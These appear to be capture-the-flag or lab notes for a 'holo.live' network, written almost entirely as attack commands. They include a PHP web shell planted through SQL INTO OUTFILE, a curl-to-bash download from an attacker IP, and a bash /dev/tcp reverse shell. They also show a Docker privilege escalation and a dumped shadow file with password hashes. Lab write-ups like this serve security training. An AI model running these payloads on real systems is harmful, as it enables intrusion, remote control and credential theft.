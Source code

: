 Injecting php rce file into the server (outside the docker):
`select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';`

RCE via: `curl 192.168.100.1:8080/shell.php?cmd=whoami`

To make a shell with it it's possible to host a shell code on our machine, then access it via curl & bash (`curl%2010.50.111.110/shell.sh%7Cbash%20`)

shell.sh:
```sh
#!/bin/bash
bash -i >& /dev/tcp/tun0ip/53 0>&1
```


## L-SRV01
Enumerating machine with linpeas: `wget 10.50.111.110/linpeas.sh`

Found: dev-mirror.holo.live | Might be interesting
Docker has SUID | GTFObins to privesc

List all docker images on the system:
`docker images`

Privesc:
`docker run -v /:/mnt --rm -it ubuntu:18.04 chroot /mnt sh`

shadow dump:
```
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::
daemon:*:18512:0:99999:7:::
bin:*:18512:0:99999:7:::
sys:*:18512:0:99999:7:::
sync:*:18512:0:99999:7:::
games:*:18512:0:99999:7:::
man:*:18512:0:99999:7:::
lp:*:18512:0:99999:7:::
mail:*:18512:0:99999:7:::
news:*:18512:0:99999:7:::
uucp:*:18512:0:99999:7:::
proxy:*:18512:0:99999:7:::
www-data:*:18512:0:99999:7:::
backup:*:18512:0:99999:7:::
list:*:18512:0:99999:7:::
irc:*:18512:0:99999:7:::
gnats:*:18512:0:99999:7:::
nobody:*:18512:0:99999:7:::
systemd-network:*:18512:0:99999:7:::
systemd-resolve:*:18512:0:99999:7:::
systemd-timesync:*:18512:0:99999:7:::
messagebus:*:18512:0:99999:7:::
syslog:*:18512:0:99999:7:::
_apt:*:18512:0:99999:7:::
tss:*:18512:0:99999:7:::
uuidd:*:18512:0:99999:7:::
tcpdump:*:18512:0:99999:7:::
sshd:*:18512:0:99999:7:::
landscape:*:18512:0:99999:7:::
pollinate:*:18512:0:99999:7:::
ec2-instance-connect:!:18512:0:99999:7:::
systemd-coredump:!!:18566::::::
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
lxd:!:18566::::::
mysql:!:18566:0:99999:7:::
dnsmasq:*:18566:0:99999:7:::
```